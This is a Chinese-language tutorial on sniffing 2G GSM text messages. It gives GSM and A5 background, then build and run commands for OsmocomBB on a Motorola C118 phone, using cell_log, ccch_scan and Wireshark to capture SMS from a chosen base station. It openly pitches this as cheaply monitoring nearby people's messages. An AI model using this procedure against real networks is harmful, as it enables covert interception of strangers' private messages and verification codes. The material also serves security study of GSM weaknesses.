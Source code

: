 # 短信嗅探

Feei <feei#feei.cn> 09/2015

## 1. 背景知识

短信嗅探技术在2011年就非常成熟，如今实现的成本也非常低廉，几十块的手机即可监控附近的短信息！

![GSM工作流程](images/sms_sniffer_gsm.gif)

**短信工作原理**

2G短信的传播方式有点类似Wi-Fi，基站对应的是路由器，而我们手机对应的是电脑。
当我们手机开机时，会主动搜索附近的基站信息，并根据SIM卡选择对应的运营商基站。连上基站获取到信号后，当有短信或者电话过来时，基站是通过广播的方式发给附近的所有人，但我们手机会有一道验证过程，这个过程会保证我们只能收到自己手机号的短信和电话。
如果我们绕过这道逻辑，便可以监控经过这个基站的所有短信和电话了。那我们如何绕过手机的这道验证呢，已经有一套成熟的开源解决方案了。

**GSM加密算法**

GSM加密采用A5算法，A5算法1989年由法国人开发，是一种序列密码，它是欧洲GSM标准中规定的加密算法，专用于数字蜂窝移动电话的加密，用于对从电话到基站连接的加密。A5的特点是效率高，适合硬件上高效实现。
A5发展至今，有A5/1、A5/2、A5/3、A5/4、A5/5、A5/6、A5/7等7个版本，目前GSM终端一般都支持A5/1和A5/3，A5/4以上基本不涉及。值得注意的是，A5/2是被故意弱化强度的版本，专用于出口给友邦，2006年后被强制叫停，终端不允许支持A5/2。


**名词解释**
- MS：Mobile Station，移动终端；
- IMSI：International Mobile Subscriber Identity，国际移动用户标识号，是TD系统分给用户的唯一标识号，它存储在SIM卡、HLR/VLR中，最多由15个数字组成；
- MCC：Mobile Country Code，是移动用户的国家号，中国是460；
- MNC：Mobile Network Code ，是移动用户的所属PLMN网号，中国移动为00、02，中国联通为01；
- MSIN：Mobile Subscriber Identification Number，是移动用户标识；
- NMSI：National Mobile Subscriber Identification，是在某一国家内MS唯一的识别码；
- BTS：Base Transceiver Station，基站收发器；
- BSC：Base Station Controller，基站控制器；
- MSC：Mobile Switching Center，移动交换中心。移动网络完成呼叫连接、过区切换控制、无线信道管理等功能的设备，同时也是移动网与公用电话交换网(PSTN)、综合业务数字网(ISDN)等固定网的接口设备；
- HLR：Home location register。保存用户的基本信息，如你的SIM的卡号、手机号码、签约信息等，和动态信息，如当前的位置、是否已经关机等；
- VLR：Visiting location register，保存的是用户的动态信息和状态信息，以及从HLR下载的用户的签约信息；
- CCCH：Common Control CHannel，公共控制信道。是一种“一点对多点”的双向控制信道，其用途是在呼叫接续阶段，传输链路连接所需要的控制信令与信息。


**运行过程**
- MS（手机）向系统请求分配信令信道（SDCCH）；
- MSC收到手机发来的IMSI可及消息；
- MSC将IMSI可及信息再发送给VLR，VLR将IMSI不可及标记更新为IMSI可及；
- VLR反馈MSC可及信息信号；
- MSC再将反馈信号发给手机。
- MS倾向信号强的BTS，使用哪种算法由基站决定，这也导致了可以用伪基站进行攻击。


## 2. 着手实践

**准备工作**

- OsmocomBB - OsmocomBB(Open source mobile communication Baseband)是GSM协议栈(Protocols stack)的开源实现。
- 电脑 - 各Linux版本都可以，这次我们选择Backtrack5
- 手机 - 我们这次选用国内最容易买到的摩托罗拉C118手机
- 耳机线
- USB2TTL线


**运行环境**

建议在BackTrack或Kali系统下操作
```bash
# 安装依赖
sudo apt-get install libtool shtool autoconf git-core pkg-config make gcc build-essential libgmp3-dev libmpfr-dev libx11-6 libx11-dev texinfo flex bison libncurses5 libncurses5-dbg libncurses5-dev libncursesw5 libncursesw5-dbg libncursesw5-dev zlibc zlib1g-dev libmpfr4 libmpc-dev  

# 下载源码
git clone git://git.osmocom.org/osmocom-bb.git  
git clone git://git.osmocom.org/libosmocore.git

# 编译libosmocore
cd ~/libosmocore  
autoreconf -i  
./configure  
make  
sudo make install

# 编译libosmocore
cd ~/osmocom-bb  
git checkout --track origin/luca/gsmmap  
cd src  
make
```

**短信截包**

将`USB2TTL`接到电脑，把耳机线一头接到手机，另外一头接到`USB2TTL`上。

```bash
# 查看手机连接状态
lsmod | grep usb

cd ~/osmocom-bb/src/host/osmocon/  
./osmocon -m c123xor -p /dev/ttyUSB0 ../../target/firmware/board/compal_e88/layer1.compalram.bin

# 再开一个终端查看可用基站
cd ~/osmocom-bb/src/host/layer23/src/misc/  
./cell_log

# 嗅探指定基站
cd ~/osmocom-bb/src/host/layer23/src/misc/  
./ccch_scan -i 127.0.0.1 -a 117

# 再开一个终端窗口查看嗅探结果
sudo wireshark -k -i lo -f 'port 4729'  
```

过滤只显示gsm_sms即可看到嗅探结果。

![短信嗅探配件](images/sms_sniffer_parts.jpg)

![短信嗅探手机](images/sms_sniffer_phone.jpg)
![短信嗅探手机](images/sms_sniffer_phone2.jpg)
![嗅探测试结果](images/sms_sniffer_result.jpg)

#### 参考链接
- [OSMOCOMBB新手指南](http://wulujia.com/2013/11/10/OsmocomBB-Guide/)
- [OsmocomBB](http://bb.osmocom.org/trac/wiki/Hardware/Phones)
- [GSM](http://www.tutorialspoint.com/gsm/gsm_architecture.htm)
